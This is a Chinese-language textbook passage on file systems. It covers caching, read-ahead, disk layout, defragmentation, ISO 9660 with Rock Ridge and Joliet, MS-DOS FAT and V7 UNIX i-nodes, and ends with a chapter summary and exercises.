虽然目前Windows有一个等价于sync的系统调用——FlushFileBuffers，不过过去没有。相反，Windows采用一个在某种程度上比UNIX方式更好（有时更坏）的策略。其做法是，只要被写进高速缓存，就把每个被修改的块写进磁盘。将缓存中所有被修改的块立即写回磁盘称为通写高速缓存（write-through cache）。同非通写高速缓存相比，通写高速缓存需要更多的磁盘I/O。
若某程序要写满1KB的块，每次写一个字符，这时可以看到这两种方法的区别。UNIX在高速缓存中保存全部字符，并把这个块每30秒写回磁盘一次，或者当从高速缓存删除这一块时，写回磁盘。在通写高速缓存里，每写入一字符就要访问一次磁盘。当然，多数程序有内部缓冲，通常情况下，在每次执行write系统调用时并不是只写入一个字符，而是写入一行或更大的单位。
采用这两种不同的高速缓存策略的结果是：在UNIX系统中，若不调用sync就移动（软）磁盘，往往会导致数据丢失，在被毁坏的文件系统中也经常如此。而在通写高速缓存中，就不会出现这类情况。选择不同策略的原因是，在UNIX开发环境中，全部磁盘都是硬盘，不可移动。而第一代Windows文件源自MS-DOS，是从软盘世界中发展起来的。由于UNIX方案有更高的效率它成为当然的选择（但可靠性更差），随着硬盘成为标准，它目前也用在Windows的磁盘上。但是，NTFS使用其他方法（日志）改善其可靠性，这在前面已经讨论过。
一些操作系统将高速缓存与页缓存集成。这种方式特别是在支持内存映射文件的时候很吸引人。如果一个文件被映射到内存上，则它其中的一些页就会在内存中，因为它们被要求按页进入。这些页面与在高速缓存中的文件块几乎没有不同。在这种情况下，它们能被以同样的方式来对待，也就是说，用一个缓存来同时存储文件块与页。
2.块提前读
第二个明显提高文件系统性能的技术是：在需要用到块之前，试图提前将其写入高速缓存，从而提高命中率。特别地，许多文件都是顺序读的。如果请求文件系统在某个文件中生成块k，文件系统执行相关操作且在完成之后，会在用户不察觉的情形下检查高速缓存，以便确定块k+1是否已经在高速缓存。如果还不在，文件系统会为块k+1安排一个预读，因为文件系统希望在需要用到该块时，它已经在高速缓存或者至少马上就要在高速缓存中了。
当然，块提前读策略只适用于顺序读取的文件。对随机存取文件，提前读丝毫不起作用。相反，它还会帮倒忙，因为读取无用的块以及从高速缓存中删除潜在有用的块将会占用固定的磁盘带宽（如果有“脏”块的话，还需要将它们写回磁盘，这就占用了更多的磁盘带宽）。那么提前读策略是否值得采用呢？文件系统通过跟踪每一个打开文件的访问方式来确定这一点。例如，可以使用与文件相关联的某个位协助跟踪该文件到底是“顺序存取方式”还是“随机存取方式”。在最初不能确定文件属于哪种存取方式时，先将该位设置成顺序存取方式。但是，查找一完成，就将该位清除。如果再次发生顺序读取，就再次设置该位。这样，文件系统可以通过合理的猜测，确定是否应该采取提前读的策略。即便弄错了一次也不会产生严重后果，不过是浪费一小段磁盘的带宽罢了。
3.减少磁盘臂运动
高速缓存和块提前读并不是提高文件系统性能的惟一方法。另一种重要技术是把有可能顺序存取的块放在一起，当然最好是在同一个柱面上，从而减少磁盘臂的移动次数。当写一个输出文件时，文件系统就必须按照要求一次一次地分配磁盘块。如果用位图来记录空闲块，并且整个位图在内存中，那么选择与前一块最近的空闲块是很容易的。如果用空闲表，并且链表的一部分存在磁盘上，要分配紧邻着的空闲块就困难得多。
不过，即使采用空闲表，也可以采用块簇技术。这里用到一个小技巧，即不用块而用连续块簇来跟踪磁盘存储区。如果一个扇区有512个字节，有可能系统采用1KB的块（2个扇区），但却按每2块（4个扇区）一个单位来分配磁盘存储区。这和2KB的磁盘块并不相同，因为在高速缓存中它依然使用1KB的块，磁盘与内存数据之间传送也是以1KB为单位进行，但在一个空闲的系统上顺序读取文件，寻道的次数可以减少一半，从而使文件系统的性能大大改善。若考虑旋转定位则可以得到这类方案的变体。在分配块时，系统尽量把一个文件中的连续块存放在同一柱面上。
在使用i节点或任何类似i节点的系统中，另一个性能瓶颈是，读取一个很短的文件也需要两次磁盘访问：一次是访问i节点，另一次是访问块。通常情况下，i节点的放置如图4-29a所示。其中，全部i节点都放在靠近磁盘开始位置，所以i节点和它指向的块之间的平均距离是柱面数的一半，这将需要较长的寻道时间。
一个简单的改进方法是，在磁盘中部而不是开始处存放i节点，此时，在i节点和第一块之间的平均寻道时间减为原来的一半。另一种做法是：将磁盘分成多个柱面组，每个柱面组有自己的i节点、数据块和空闲表（McKusick等人，1984），见图4-29b。在文件创建时，可选取任一i节点，但首先在该i节点所在的柱面组上查找块。如果在该柱面组中没有空闲的块，就选用与之相邻的柱面组的一个块。
在初始安装操作系统后，从磁盘的开始位置，一个接一个地连续安装了程序与文件。所有的空闲磁盘空间放在一个单独的、与被安装的文件邻近的单元里。但随着时间的流逝，文件被不断地创建与删除，于是磁盘会产生很多碎片，文件与空穴到处都是。结果是，当创建一个新文件时，它使用的块会散布在整个磁盘上，造成性能的降低。
磁盘性能可以通过如下方式恢复：移动文件使它们相邻，并把所有的（至少是大部分的）空闲空间放在一个或多个大的连续的区域内。Windows有一个程序defrag就是从事这个工作的。Windows的用户应该定期使用它。
磁盘碎片整理程序会在一个在分区末端的连续区域内有适量空闲空间的文件系统上很好地运行。这段空间会允许磁盘碎片整理程序选择在分区开始端的碎片文件，并复制它们所有的块放到空闲空间内。这个动作在磁盘开始处释放出一个连续的块空间，这样原始或其他的文件可以在其中相邻地存放。这个过程可以在下一大块的磁盘空间上重复，并继续下去。
有些文件不能被移动，包括页文件、休眠文件以及日志，因为移动这些文件所需的管理成本要大于移动它们的价值。在一些系统中，这些文件是固定大小的连续的区域，因此它们不需要进行碎片整理。这类文件缺乏灵活性会造成一些问题，一种情况是，它们恰好在分区的末端附近并且用户想减小分区的大小。解决这种问题的惟一的方法是把它们一起删除，改变分区的大小，然后再重新建立它们。
Linux文件系统（特别是ext2和ext3）由于其选择磁盘块的方式，在磁盘碎片整理上一般不会遭受像Windows那样的困难，因此很少需要手动的磁盘碎片整理。
在这一节，我们将讨论文件系统的几个实例，包括从相对简单的文件系统到十分复杂的文件系统。现代流行的UNIX文件系统和Windows Vista自带文件系统在本书的第10章和第11章有详细介绍，在此就不再讨论了。但是我们有必要来看看这些文件系统的前身。
作为第一个文件系统实例，让我们来看看用于CD-ROM的文件系统。因为这些文件系统是为一次性写介质设计的，所以非常简单。例如，该文件系统不需要记录空闲块，这是因为一旦光盘生产出来后，CD-ROM上的文件就不能被删除或者创建了。下面我们来看看主要的CD-ROM文件系统类型以及对这个文件系统的两种扩展。
在CD-ROM出现一些年后，引进了CD-R（可记录CD）。不像CD-ROM，CD-R可以在初次刻录之后加文件，但只能简单地加在CD-R的最后面。文件不能删除（尽管可以更新目录来隐藏已存在的文件）。因而对于这种“只能添加”的文件系统，其基本的性质不会改变。特别地，所有的空闲空间放在了CD末端连续的一大块内。
1.ISO 9660文件系统
最普遍的一种CD-ROM文件系统的标准是1988年被采纳的名为ISO 9660的国际标准。实际上现在市场上的所有CD-ROM都支持这个标准，有的则带有一些扩展（下面会对此进行讨论）。这个标准的一个目标就是使CD-ROM独立于机器所采用的字节顺序和使用的操作系统，即在所有的机器上都是可读的。因此，在该文件系统上加上了一些限制，使得最弱的操作系统（如MS-DOS）也能读取该文件系统。
CD-ROM没有和磁盘一样的同心柱面，而是沿一个连续的螺旋线来顺序存储信息（当然，跨越螺旋线查找也是可能的）。螺旋上的位序列被划分成大小为2352字节的逻辑块（也称为逻辑扇区）。这些块有的用来进行引导，有的用来进行错误纠正或者其他一些用途。每个逻辑块的有效部分是2048字节。当用于存放音乐时，CD中有导入部分、导出部分以及轨道间的间隙，但是用于存储数据的CD-ROM则没有这些。通常，螺旋上的逻辑块是按分钟或者秒进行分配的。通过转换系数1秒=75块，则可以转换得到相应的线性块号。
ISO 9660支持的CD-ROM集可以有多达216 -1个CD。每个单独的CD-ROM还可分为多个逻辑卷（分区）。下面我们重点考虑单个没有分区CD-ROM时的ISO 9660。
每个CD-ROM有16块作为开始，这16块的用途在ISO 9660标准中没有定义。CD-ROM制造商可以在这一区域里放入引导程序，使计算机能够从CD-ROM引导，或者用于其他目的。接下来的一块存放基本卷描述符（primary volume descriptor），基本卷描述符包含了CD-ROM的一些基本信息。这些信息包括系统标识符（32字节）、卷标识符（32字节）、发布标识符（128字节）和数据预备标识符（128字节）。制造商可以在上面的几个域中填入需要的信息，但是为了跨平台的兼容性，不能使用大写字母、数字以及很少一部分标点符号。
基本卷描述符还包含了三个文件的名字，这三个文件分别用来存储概述、版权声明和文献信息。除此之外，还包含有一些关键数字信息，例如逻辑块的大小（通常为2048，但是在某些情况下可以是4096、8192或者更大）、CD-ROM所包含的块数目以及CD-ROM的创建日期和过期日期。基本卷描述符也包含了根目录的目录表项，说明根目录在CD-ROM的位置（即从哪一块开始）。从这个根目录，系统就能找到其他文件所在的位置。
除基本卷描述符之外，CD-ROM还包含有一个补充卷描述符（supplementary volume descriptor）。它和基本卷描述符包含类似的信息，在这里不再详细讨论。
根目录和所有的其他目录包含可变数目的目录项，目录中的最后一个目录项有一位用于标记该目录项是目录中的最后一个。目录项本身也是长度可变的。每一个目录项由10到12个域构成，其中一些域是ASCII域，另外一些是二进制数字域。二进制域被编码两次，一个用于低地址结尾格式（例如在Pentium上所用的），一个用于高地址结尾格式（例如在SPARC上所用的）。因此，一个16位的数字需要4个字节，一个32位的数字需要8个字节。
这样冗余编码的目的主要是为了能在标准发展的同时照顾到各个方面的利益。如果该标准仅规定低地址结尾，那么在产品中使用高地址结尾的厂家就会觉得自己受到歧视，就不会接受这个标准。所以我们可以准确地用冗余的字节/小时数来衡量一张CD-ROM的情感因素。
ISO 9660目录项的格式如图4-30所示。因为目录项是长度可变的，所以，第一个域就说明这一项的长度。这一字节被定义为高位在左，以避免混淆。
目录项可能包含有扩展属性。如果使用了这个特性，则第二个字节就说明扩展属性的长度。
接下来是文件本身的起始块。文件是以连续块的方式存储的，所以一个文件的位置完全可以由起始块的位置和大小来确定。起始块的下一个域就是文件大小。
CD-ROM的日期和时间被记录在下一个域中，其中分隔的字节分别表示年、月、日、小时、分钟、秒和时区。年份是从1900年开始计数的，这意味着CD-ROM将会遇到2156年问题，因为在2155年之后将会是1900年。如果定义初始的日期为1988年（标准通过的那一年）的话，那么这个问题就可以推迟88年产生，也就是2244年。
标志位域包含一些其他的位，包括一个用来在打开目录时隐藏目录项（来自MS-DOS的特性）的标志位，一个用以区分该项是文件还是目录的标志位，一个用以标志是否使用扩展属性的标志位，以及一个用来标志该项是否为目录中最后一项的标志位。其他一些标志位也在这个域中，但是在此我们不再讨论。下一个域说明了在ISO 9660的最简版本中是否使用文件分隔块，我们也不做讨论。
再下一个域标明了该文件放在哪一个CD-ROM上。一个CD-ROM的目录项可以引用在同一CD-ROM集中的另外一个CD-ROM上的文件。用这样的方法就可以在第一张CD-ROM上建立一个主目录，该主目录列出了在这个CD-ROM集合中的其他所有CD-ROM上的文件。
图4-30中标有L的域给出了文件名的大小（以字节为单位）。之后的域就是文件名本身。一个文件名由基本名、一个点、扩展名、分号和二进制版本号（1或2个字节）构成。基本名和扩展名可以使用大写字母、数字0～9和下划线。禁止使用其他字符以保证所有的机器都能处理这个文件名。基本名最多可以为8个字符，而扩展名最多可以为3个字符。这样做是为了保证能和MS-DOS兼容。只要文件的版本号不同，则相同的文件名可以在同一个目录中出现多次。
最后两个域不是必需的。填充域用来保证每一个目录项都是偶数个字节，以2字节为边界对齐下一项的数字域。如果需要填充的话，就用0代替。最后一个域是系统使用域，该域的功能和大小没有定义，仅仅只要求该域为偶数个字节。不同的系统对该域有不同的用途。例如，Macintosh系统就把此域用来保存Finder标志。
一个目录中的项除了前两项之外，其余的都按字母顺序排列。第一项表示当前目录本身，第二项表示当前目录的父目录。这和UNIX的.目录和..目录相似。而文件本身不需要按其目录项在目录中的顺序来排列。
对于目录中目录项的数目没有特定的限制；但是对于目录的嵌套深度有限制，最大的目录嵌套深度为8。为了使得有关的实现简化一些，这个限制是任意设置的。
ISO 9660定义了三个级别。级别1的限制最多，限制文件名使用上面提到的8+3个字符的表示法，而且所有的文件必须是连续的（这些我们在前面介绍过）。进而，目录名被限制在8个字符而且不能有扩展名。这个级别的使用，使得CD-ROM可以在所有的机器上读出。
级别2放宽了对长度的限制。它允许文件和目录名多达31个字符，但是字符集还是一样的。
级别3使用和级别2同样的限制，但是文件不需要是连续的。在这个级别上，一个文件可以由几个段（extents）构成，每一个段可以由若干连续分块构成。同一个分块可以在一个文件中出现多次，也可以出现在两个或者更多的文件中。如果相当大的一部分数据在几个文件中重复，级别3则通过要求数据不能出现多次来进行空间上的优化。
2.Rock Ridge扩展
正如我们上面所看到的，ISO 9660在很多方面有限制。在这个标准公布不久，UNIX工作者开始在这个标准上进行扩展，使得在CD-ROM上能实现UNIX文件系统。这个扩展被命名为Rock Ridge，这个名字来源于Gene Wilder的电影《Blazing Saddles》中一个小镇，也许委员会的成员之一喜欢这个电影，便以此命名。
该扩展使用了系统使用域，使得Rock Ridge CD-ROM可以在所有计算机上可读。其他所有的域仍然保持ISO 9660标准中的定义。所有其他不识别Rock Ridge扩展的系统只需要忽略这个域，把盘当作普通的CD-ROM来识别即可。
该扩展分为下面几个域：
1)PX——POSIX属性。
2)PN——主设备号和次设备号。
3)SL——符号链接。
4)NM——替代名。
5)CL——子位置。
6)PL——父位置。
7)RE——重定位。
8)TF——时间戳。
PX域包含了标准UNIX的rwxrwxrwx所有者、同组用户和其他用户权限位。也包含了包含在模式字中的其他位，如SETUID位和SETGID位等。
为了能在CD-ROM上表示原始设备，需要PN域来表示。该域包含了和文件相关的主设备号和次设备号。这样，/dev目录的内容就可以在写到CD-ROM上之后在目标系统上重新正确地构造。
SL域是符号链接，它允许在一个文件系统上的文件可以引用另一个文件系统上的文件。
最重要的域是NM域。它允许同一个文件可以关联第二个名字。这个名字不受ISO 9660字符集和长度的限制，这样使得在CD-ROM上可以表示任意的UNIX文件。
接下来的三个域一起用来消除ISO 9660中的对目录嵌套深度为8的限制。使用这几个域可以指明一个目录被重定位了，而且可以标明其层次结构。这对于消除深度限制非常有用。
最后，TF域包含了每个UNIX的i节点中的三个时间戳：文件创建时间、文件修改时间和文件最后访问的时间。有了这些扩展，就可以将一个UNIX文件系统复制到CD-ROM上，并且能够在不同的系统上正确恢复。
3.Joliet扩展
UNIX委员会不是惟一对ISO 9660进行扩展的小组，微软也发现了这个标准有太多的限制（尽管这些限制最初都是由于微软自己的MS-DOS引起的）。所以微软也做了一些扩展，名为Joliet。这个扩展设计的目的是，为了能够将Windows文件系统复制到CD-ROM上，并且能够恢复（与为UNIX设计Rock Ridge的思路一样）。实际上所有能在Windows上运行的、使用CD-ROM的程序都支持Joliet，包括可写CD的刻录程序。通常这些程序都让用户选择是使用ISO 9660标准还是Joliet标准。
Joliet提供的主要扩展为：
1)长文件名。
2)Unicode字符集。
3)比8层更深的目录嵌套深度。
4)带扩展名的目录。
第一个扩展允许文件名多达64字符。第二个扩展允许文件名使用Unicode字符集，这个扩展对那些不使用拉丁字符集的国家非常重要，如日本、以色列和希腊。因为Unicode字符是2个字节的，所以Joliet最长的文件名可以达到128字节。
和Rock Ridge一样，Joliet同样消除了对目录嵌套深度的限制。目录可以根据需要达到一定的嵌套深度。最后，目录名也可以有扩展名。目前还不清楚为什么有这个扩展，因为大多数的Windows目录从来没有扩展名，但或许有一天会用到。
MS-DOS文件系统是第一个IBM PC系列所采用的文件系统。它也是Windows 98与Windows ME所采用的主要的文件系统。Windows 2000、Windows XP与Windows Vista上也支持它，虽然除了软盘以外，它现在已经不再是新的PC的标准了。但是，它和它的扩展（FAT-32）一直被许多嵌入式系统所广泛使用。大部分的数码相机使用它。许多MP3播放器只能使用它。流行的苹果公司的iPod使用它作为默认的文件系统，尽管知识渊博的骇客可以重新格式化iPod并安装一个不同的文件系统。使用MS-DOS文件系统的电子设备的数量现在要远远多于过去，并且当然远远多于使用更现代的NTFS文件系统的数量。因此，我们有必要看一看其中的一些细节。
要读文件时，MS-DOS程序首先要调用open系统调用，以获得文件的句柄。open系统调用识别一个路径，可以是绝对路径或者是相对于现在工作目录的路径。路径是一个分量一个分量地查找的，直到查到最终的目录并读进内存。然后开始搜索要打开的文件。
尽管MS-DOS的目录是可变大小的，但它使用固定的32字节的目录项，MS-DOS的目录项的格式如图4-31所示。它包含文件名、属性、建立日期和时间、起始块和具体的文件大小。在每个分开的域中，少于8+3个字符的文件名左对齐，在右边补空格。属性域是一个新的域，包含用来指示一个文件是只读的、存档的、隐藏的还是一个系统文件的位。不能写只读文件，这样避免了文件意外受损。存档位没有对应的操作系统的功能（即MS-DOS不检查和设置它）。存档位主要的用途是使用户级别的存档程序在存档一个文件后清理这一位，其他程序在修改了这个文件之后设置这一位。以这种方式，一个备份程序可以检查每个文件的这一位来确定是否需要备份该文件。设置隐藏位能够使一个文件在目录列表中不出现，其作用是避免初级用户被一些不熟悉的文件搞糊涂了。最后，系统位也隐藏文件。另外，系统文件不可以用del命令删除，在MS-DOS的主要组成部分中，系统位都被设置。
目录项也包含了文件建立和最后修改的日期和时间。时间只是精确到±2s，因为它只是用2个字节的域来存储，只能存储65 536个不同的值（一天包含86 400秒）。这个时间域被分为秒（5个位）、分（6个位）和小时（5个位）。以日为单位计算的日期使用三个子域：日（5个位），月（4个位），年-1980（7个位）。用7个位的数字表示年，时间的起始为1980年，最高的表示年份是2107年。所以MS-DOS有内在的2108年问题。为了避免灾难，MS-DOS的用户应该尽快开始在2108年之前转变工作。如果把MS-DOS使用组合的日期和时间域作为32位的秒计数器，它就能准确到秒，可把灾难推迟到2116年。
MS-DOS按32位的数字存储文件的大小，所以理论上文件大小能够大至4GB。尽管如此，其他的约束（下面论述）将最大文件限制在2GB或者更小。让人吃惊的是目录项中的很大一部分空间（10字节）没有使用。
MS-DOS通过内存里的文件分配表来跟踪文件块。目录表项包含了第一个文件块的编号，这个编号用作内存里有64K个目录项的FAT的索引。沿着这条链，所有的块都能找到。FAT的操作在图4-12中有描述。
FAT文件系统总共有三个版本：FAT-12，FAT-16和FAT-32，取决于磁盘地址包含有多少二进制位。其实，FAT-32只用到了地址空间中的低28位，它更应该叫FAT-28。但使用2的幂的这种表述听起来要匀整得多。
在所有的FAT中，都可以把磁盘块大小调整到512字节的倍数（不同的分区可能采用不同的倍数），合法的块大小（微软称之为簇大小）在不同的FAT中也会有所不同。第一版的MS-DOS使用块大小为512字节的FAT-12，分区大小最大为212 ×512字节（实际上只有4086×512字节，因为有10个磁盘地址被用作特殊的标记，如文件的结尾、坏块等）。根据这些参数，最大的磁盘分区大小约为2MB，而内存里的FAT表中有4096个项，每项2字节（16位）。若使用12位的目录项则会非常慢。
这个系统在软盘条件下工作得很好，但当硬盘出现时，它就出现问题了。微软通过允许其他的块大小如（1KB，2KB,4KB）来解决这个问题。这个修改保留了FAT-12表的结构和大小，但是允许可达16 MB的磁盘分区。
由于MS-DOS支持在每个磁盘驱动器中划分四个磁盘分区，所以新的FAT-12文件系统可在最大64MB的磁盘上工作。除此之外，还必须引入新的内容。于是就引进了FAT-16，它有16位的磁盘指针，而且允许8KB、16KB和32KB的块大小（32 768是用16位可以表示的2的最大幂）。FAT-16表需要占据内存128KB的空间。由于当时已经有更大的内存，所以它很快就得到了应用，并且取代了FAT-12系统。FAT-16能够支持的最大磁盘分区是2GB（64K个项，每个项32KB），支持最大8GB的磁盘，即4个分区，每个分区2GB。
对于商业信函来说，这个限制不是问题，但对于存储采用DV标准的数字视频来说，一个2GB的文件仅能保存9分钟多一点的视频。结果就是无论磁盘有多大，PC的磁盘也只能支持四个分区，能存储在磁盘中的最长的视频大约是38分钟。这一限制也意味着，能够在线编辑的最大的视频少于19分钟，因为同时需要输入和输出文件。
随着Windows 95第2版的发行，引入了FAT-32文件系统，它具有28位磁盘地址。在Windwos 95下的MS-DOS也被改造，以适应FAT-32。在这个系统中，分区理论上能达到228 ×215 字节，但实际上是限制在2TB（2048GB），因为系统在内部的512字节长的扇区中使用了一个32位的数字来记录分区的大小，这样29 ×232 是2TB。对应不同的块大小以及所有三种FAT类型的最大分区都在图4-32中表示出来。
除了支持更大的磁盘之外，FAT-32文件系统相比FAT-16文件系统有另外两个优点。首先，一个用FAT-32的8GB磁盘可以是一个分区，而使用FAT-16则必须是四个分区，对于Windows用户来说，就是“C:”、“D:”、“E:”和“F:”逻辑磁盘驱动器。用户可以自己决定哪个文件放在哪个盘以及记录的内容放在什么地方。
FAT-32相对于FAT-16的另外一个优点是，对于一个给定大小的硬盘分区，可以使用一个小一点的块大小。例如，对于一个2GB的硬盘分区，FAT-16必须使用32KB的块，否则仅有的64K个磁盘地址就不能覆盖整个分区。相反，FAT-32处理一个2GB的硬盘分区的时候就能够使用4KB的块。使用小块的好处是大部分文件都小于32KB。如果块大小是32KB，那么一个10字节的文件就占用32KB的空间，如果文件平均大小是8KB，使用32KB的块大小，3/4的磁盘空间会被浪费，这不是使用磁盘的有效方法。而8KB的文件用4KB的块没有空间的损失，却会有更多的RAM被FAT系统占用。把4KB的块应用到一个2GB的磁盘分区，会有512K个块，所以FAT系统必须在内存里包含512K个项（占用了2MB的RAM）。
MS-DOS使用FAT来跟踪空闲磁盘块。当前没有分配的任何块都会标上一个特殊的代码。当MS-DOS需要一个新的磁盘块时，它会搜索FAT以找到一个包含这个代码的项。所以不需要位图或者空闲表。
即使是早期版本的UNIX也有一个相当复杂的多用户文件系统，因为它是从MULTICS继承下来的。下面我们将会讨论V7文件系统，这是为PDP-11创建的一个文件系统，它也使得UNIX闻名于世。我们将在第10章通过Linux讨论现代UNIX的文件系统。
文件系统从根目录开始形成树状，加上链接，形成了一个有向无环图。文件名可以多达14个字符，能够容纳除了/和NUL之外的任何ASCII字符，NUL也表示成数字数值0。
UNIX目录中为每个文件保留了一项。每项都很简单，因为UNIX使用i节点，如图4-13中所示。一个目录项包含了两个域，文件名（14个字节）和i节点的编号（2个字节），如图4-33所示。这些参数决定了每个文件系统的文件数目为64K。
就像图4-13中的i节点一样，UNIX的i节点包含一些属性。这些属性包括文件大小、三个时间（创建时间，最后访问时间，最后修改时间）、所有者、所在组、保护信息以及一个计数（用于记录指向i节点的目录项的数量）。最后一个域是为了链接而设的。当一个新的链接加到一个i节点上，i节点里的计数就会加1。当移走一个连接时，该计数就减1。当计数为0时，就收回该i节点，并将对应的磁盘块放进空闲表。
对于特别大的文件，可以通过图4-13所示的方法来跟踪磁盘块。前10个磁盘地址是存储在i节点自身中的，所以对于小文件来说，所有必需的信息恰好是在i节点中。而当文件被打开时，i节点将被从磁盘取到内存中。对于大一些的文件，i节点内的其中一个地址是称为一次间接块（single indirect block）的磁盘块地址。这个块包含了附加的磁盘地址。如果还不够的话，在i节点中还有另一个地址，称为二次间接块（double indirect block）。它包含一个块的地址，在这个块中包含若干个一次间接块。每一个这样的一次间接块指向数百个数据块。如果这样还不够的话，可以使用三次间接块（triple indirect block）。整个情况参见图4-34。
当打开某个文件时，文件系统必须要获得文件名并且定位它所在的磁盘块。让我们来看一下怎样查找路径名/usr/ast/mbox。以UNIX为例，但对所有的层次目录系统来说，这个算法是大致相同的。首先，文件系统定位根目录。在UNIX系统中，根目录的i节点存放于磁盘上固定的位置。从这个i节点，系统将可以定位根目录，虽然根目录可以放在磁盘上的任何位置，但假定它放在磁盘块1的位置。
接下来，系统读根目录并且在根目录中查找路径的第一个分量usr，以获取/usr目录的i节点号。由i节点号来定位i节点是很直接的，因为每个i节点在磁盘上都有固定的位置。根据这个i节点，系统定位/usr目录并在其中查找下一个分量ast。一旦找到ast的项，便找到了/usr/ast目录的i节点。依据这个i节点，可以定位该目录并在其中查找mbox。然后，这个文件的i节点被读入内存，并且在文件关闭之前会一直保留在内存中。图4-35显示了查找的过程。
相对路径名的查找同绝对路径的查找方法相同，只不过是从当前工作目录开始查找而不是从根目录开始。每个目录都有.和..项，它们是在目录创建的时候同时创建的。.表项是当前目录的i节点号，而..表项是父目录（上一层目录）的i节点号。这样，查找../dick/prog.c的过程就成为在工作目录中查找..，寻找父目录的i节点号，并查询dick目录。不需要专门的机制处理这些名字。目录系统只要把这些名字看作普通的ASCII字符串即可，如同其他的名字一样。这里惟一的巧妙之处是..在根目录中指向自身。
文件系统总是比操作系统的其他部分吸引了更多的研究，现在也是这样。当标准的文件系统被完全理解后，现在还有很多后续的关于优化高速缓存管理的研究（Burnett等人，2002；Ding等人，2007；Gnaidy等人，2004；Kroeger和Long，2001；Pai等人，2000；以及Zhou等人，2001）。后续的工作还有关于新类型的文件系统，例如用户级别的文件系统（Mazi`eres，2001），闪存文件系统（Gal等人，2005），日志文件系统（Prabhakaran等人，2005；以及Stein等人，2001），版本控制（versioning）文件系统（Cornell等人，2004），对等（peer-to-peer）文件系统（Muthitacharoen等人，2002），以及其他。Google文件系统也不寻常，因为它有极好的容错性能（Ghemawat等人，2003）。文件系统内不同的查询方法也是很有意义（Padioleau和Ridoux，2003）。
另一个受到关注的领域是起源（provenance）——追踪数据的历史，包括它们来自哪里，谁拥有它们，以及它们是如何转换的（Muniswarmy-Reddy等人，2006；以及Shah等人，2007）。这个信息可以以不同的方式加以运用。备份也一直受到关注（Cox等人，2002；以及Rycroft等人，2006），如同恢复的相关主题一样（Keeton等人，2006）。与备份有关的还有，设法保持数据几十年，并仍旧可以使用（Baker等人，2006；Maniatis等人，2003）。可靠性与安全性也是需要解决的问题（Greenan和Miller，2006；Wires和Feeley，2007；Wright等人，2007；以及Yang等人，2006）。最后，性能始终是一个值得研究的主题（Caudill和Gavrikovska，2006；Chiang和Huang，2007；Stein，2006；Wang等人，2006a；以及Zhang和Ghose，2007）。
从外部看，文件系统是一组文件和目录，以及对文件和目录的操作。文件可以被读写，目录可以被创建和删除，并可将文件从一个目录移到另一个目录中。大多数现代操作系统都支持层次目录系统，其中，目录中还有子目录，子目录中还可以有子目录，如此无限下去。
而在内部看，文件系统又是另一番景象。文件系统的设计者必须考虑存储区是如何分配的，系统如何记录哪个块分给了哪个文件。可能的方案有连续文件、链表、文件分配表和i节点等。不同的系统有不同的目录结构。属性可以存在目录中或存在别处（比如，在i节点中）。磁盘空间可以通过位图的空闲表来管理。通过增量转储以及用程序修复故障文件系统的方法，可以提高文件系统的可靠性。文件系统的性能非常重要，可以通过多种途径提高性能，包括高速缓存、预读取以及尽可能仔细地将一个文件中的块紧密地放置在一起等方法。日志结构文件系统通过大块单元写入的操作也可以改善性能。
文件系统的例子有ISO 9660、MS-DOS以及UNIX。它们之间在怎样记录每个文件所使用的块、目录结构以及对空闲磁盘空间管理等方面都存在着差别。
1.在早期的UNIX系统中，可执行文件（a.out）以一个非常特别的魔数开始，这个数不是随机选择的。这些文件都有文件头，后面是正文段和数据段。为什么要为可执行文件挑选一个非常特别的魔数，而其他类型文件的第一个字反而有一个或多或少是随机选择的魔数？
2.在图4-4中，一个属性是记录长度。为什么操作系统要关心这个属性？
3.在UNIX中open系统调用绝对需要吗？如果没有会产生什么结果？
4.在支持顺序文件的系统中总有一个文件回绕操作，支持随机存取文件的系统是否也需要该操作？
5.某一些操作系统提供系统调用rename给文件重命名，同样也可以通过把文件复制到新文件并删除原文件而实现文件重命名。请问这两种方法有何不同？
6.在有些系统中有可能把部分文件映射进内存中。如此一来系统应该施加什么限制？这种部分映射如何实现？
7.有一个简单操作系统只支持单一目录结构，但是允许该目录中有任意多个文件，且带有任意长度的名字。这样可以模拟层次文件系统吗？如何进行？
8.在UNIX和Windows中，通过使用一个特殊的系统调用把文件的“当前位置”指针移到指定字节，从而实现了随机访问。请提出一个不使用该系统调用完成随机存取的替代方案。
9.考虑图4-8中的目录树，如果当前工作目录是/usr/jim，则相对路径名为../ast/x的文件的绝对路径名是什么？
10.正如书中所提到的，文件的连续分配会导致磁盘碎片，因为当一个文件的长度不等于块的整数倍时，文件中的最后一个磁盘块中的空间会浪费掉。请问这是内碎片还是外碎片？并将它与先前一章的有关讨论进行比较。
11.一种在磁盘上连续分配并且可以避免空洞的方案是，每次删除一个文件后就紧缩一下磁盘。由于所有的文件都是连续的，复制文件时需要寻道和旋转延迟以便读取文件，然后全速传送。在写回文件时要做同样的工作。假设寻道时间为5ms，旋转延迟为4 ms，传送速率为8MB/s，而文件平均长度是8 KB，把一个文件读入内存并写回到磁盘上的一个新位置需要多长时间？运用这些数字，计算紧缩16GB磁盘的一半需要多长时间？
12.基于前一个问题的答案，紧缩磁盘有什么作用吗？
13.某些数字消费设备需要存储数据，比如存放文件等。给出一个现代设备的名字，该设备需要文件存储，并且对文件运用连续分配空间的方法是不错的方法。
14.MS-DOS如何在文件中实现随机访问？
15.考虑图4-13中的i节点。如果它含有用4个字节表示的10个直接地址，而且所有的磁盘块大小是1024KB，那么文件最大可能有多大？
16.有建议说，把短文件的数据存在i节点之内会提高效率并且节省磁盘空间。对于图4-13中的i节点，在i节点之内可以存放多少字节的数据？
17.两个计算机科学系的学生Carolyn和Elinor正在讨论i节点。Carolyn认为存储器容量越来越大，价格越来越便宜，所以当打开文件时，直接取i节点的副本，放到内存i节点表中，建立一个新i节点将更简单、更快，没有必要搜索整个i节点来判断它是否已经存在。Elinor则不同意这一观点。他们两个人谁对？
18.说明硬连接优于符号链接的一个优点，并说明符号链接优于硬连接的一个优点。
19.空闲磁盘空间可用空闲块表或位图来跟踪。假设磁盘地址需要D位，一个磁盘有B个块，其中有F个空闲。在什么条件下，空闲块表采用的空间少于位图？设D为16位，请计算空闲磁盘空间的百分比。
20.一个空闲块位图开始时和磁盘分区首次初始化类似，比如：1000 0000 0000 0000（首块被根目录使用），系统总是从最小编号的盘块开始寻找空闲块，所以在有6块的文件A写入之后，该位图为1111 1110 0000 0000。请说明在完成如下每一个附加动作之后位图的状态：
a)写入有5块的文件B。
b)删除文件A。
c)写入有8块的文件C。
d)删除文件B。
